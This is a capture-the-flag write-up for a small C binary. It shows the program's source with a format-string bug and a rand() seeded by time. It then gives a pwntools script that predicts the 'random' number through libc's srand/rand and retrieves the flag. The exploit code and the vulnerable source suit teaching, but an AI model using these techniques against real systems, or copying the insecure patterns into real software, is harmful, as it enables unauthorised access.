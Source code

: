 Before we start you need to download the binary : [Binary](./vuln).

Let's start by running the binary and see what's in there : 

````console 
┌──(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf/distrib]
└─$ ./vuln
Welcome to SEETF!
Please enter your name to register:
IronByte
Welcome: IronByte

Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
500
Not even close!
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?
String
Same! I love
String
too!
````
We can see him asking us for a name, then he is giving us some options to choose from, 1st option was to guess his favourite number, 2nd was to input something then output it back to you.
Let's take a look at the code: 

````C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	    system("cat flag");
        exit(0);
    }
    else {
        printf("Not even close!\n");
    }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		        set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		        read(0, format, 64);
                printf("Same! I love \n");
		        printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
````

The first thing to notice was that there was a guess_me function out of the main function that asks for a guess number, then try to compare it with another number 'fav_num' that was randomly generated then if your guess is right it will cat for you the flag. Anyway, looking more at the code made me notice another thing which is a critical vulnerability in the code. It was the **'printf (format)'**, actually that print is vulnerable to [*the string format vulnerability*](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) because we are not specifying the format of each variable passed through the **print ()** function, which can let you read/write data from the stack so the first thing that come to my mind was to try to overwrite the value of that **favorite_number** into a number that I know then try to call the *guess_me* function then I noticed that the value of favorite number will be always randomized. Anyway, that idea was not good enough to solve the puzzle,  I took a look at the option number 1 and it comes to me the idea of just handling the 2 lines **srand (time (NULL)); int fav_num = Rand () % 1000000;** by myself, by importing the libc library and calling the *time* and the *srand* functions from there to just give me the same random value that the *srand* is given, after that just passing that value to the *guess_me* function to get the flag. That idea was much easier to implement than using the format string vulnerability for me.
Here's the exploit that i made :
````python
from pwn import *
from time import time
from ctypes import CDLL

# Target = remote('challenge.404ctf.fr', 31720)
target = process('./distrib/vuln') #You have got to change your own path of the binary.
# target = remote('')
# Including the libc library.
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

# Getting to the input of the first option.
screen = target.recvuntil(b"register:")
target.sendline(b"Ironbyte")
screen = target.recvuntil(b"you?")
target.sendline(b"1")
screen = target.recvline()

# Passing down the current time and generating the Right Number.
libc.srand(int(time()))
generated_Number = libc.rand() % 1000000  
target.sendline(str(generated_Number).encode()) 

# Gdb.attach(target, gdbscript='b* 00400668')

target.interactive()
target.close()
```` 


